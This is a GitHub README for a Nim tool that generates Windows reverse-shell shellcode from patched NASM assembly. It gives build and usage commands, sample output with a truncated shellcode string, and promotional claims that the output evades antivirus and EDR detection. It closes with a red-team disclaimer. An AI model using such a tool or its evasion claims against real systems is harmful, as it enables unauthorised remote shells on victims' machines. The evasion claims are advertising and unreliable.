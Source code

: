 # 💀 ShellCodeGenerator

> A powerful Linux-based utility to generate customized Windows reverse shellcode directly from inline x86 NASM assembly.

![ShellcodeGenerator Banner](https://img.shields.io/badge/NASM-Shellcode-orange?style=flat-square&logo=nasm)
![Platform](https://img.shields.io/badge/Platform-Windows-blue?style=flat-square&logo=windows)
![Language](https://img.shields.io/badge/Language-Nim-yellow?style=flat-square&logo=nim)

---

## 🚀 About

**ShellcodeGenerator** is a custom tool written in **Nim** that dynamically patches IP and port values into hand-crafted x86 assembly shellcode (NASM syntax) for **Windows reverse shells**.

It compiles and links the shellcode into a PE binary (`.exe`) and extracts printable shellcode bytes suitable for exploitation tasks, malware research, or CTFs.

---

## 📦 Features

✅ Patch any IP address and port into shellcode  
✅ Fully x86 NASM compatible  
✅ Generates raw shellcode from compiled `.exe`  
✅ Written in Nim for speed and flexibility  
✅ Linux-only for ethical red teaming and malware research  
✅ Highlights correct little-endian formatting for network values

---

## ✅ Advantages

- 🔓 **Non-Signature Shellcode**  
  The generated shellcode does **not rely on common payload templates**, making it **unique on every run**. This effectively defeats most static signature-based detection techniques.

- 🛡️ **Bypasses Antivirus (AV) Engines**  
  Due to its polymorphic nature and absence of known patterns, this shellcode can evade many modern **AV and EDR solutions**, making it ideal for red team operations and stealthy post-exploitation.

- 🧬 **No External Dependencies**  
  Fully self-contained: no Metasploit, no PowerShell, no external loaders—pure, raw shellcode.

- 🎯 **Precision Targeting**  
  Configurable target IP and port are directly embedded in little-endian format at compile time, reducing runtime footprint.

---

## 🧪 Requirements

- Linux OS (any distro)
- [`nasm`](https://www.nasm.us/) — Netwide Assembler
- [`ld`](https://linux.die.net/man/1/ld) — GNU linker
- Nim Compiler (`nim`)

---

## ⚙️ Installation

Install Nim:
```bash
sudo apt install nim
```

Install Nasm and LD 
```bash
sudo apt install nasm binutils
```

Clone The Repository
```bash
git clone https://github.com/Raulisr00t/ShellcodeGenerator.git
cd ShellcodeGenerator
```

## 🛠️ Usage
```bash
nim c -d:release generator.nim
./generator <IP> <PORT>
```

Example
```bash
./generator 192.168.0.100 4444
```

Output:
```bash
[*] Replacing IP with: 0x6400a8c0
[*] Replacing PORT with: 0x5c11
[+] Written modified assembly to root.nasm
[+] Assemble root.nasm
[+] Linking
[+] Done !
Printing Shellcode
"\x31\xc9\x89\x00\x00\x00..."
```

## 📂 File Structure
```bash
.
├── generator.nim      # Main tool logic
├── root.nasm          # Modified NASM shellcode (auto-generated)
├── reverse.exe        # Compiled shellcode payload (auto-generated)
└── README.md          # Documentation
```

## 🧠 How It Works
Assembly Template: Inline NASM with placeholders for IP and port
Patch Engine: Replaces relevant lines using regex with correct little-endian values
Shellcode Extraction: Uses objdump and shell pipelines to extract clean, printable shellcode

## 🔐 Disclaimer
This tool is intended for educational purposes, malware research, and red teaming only.
You are solely responsible for how you use this code.
Do not deploy against systems you do not own or have explicit permission to test.

## ✨ Author
Developed by Raul
Drop a ⭐ if this helped you — and hack responsibly!
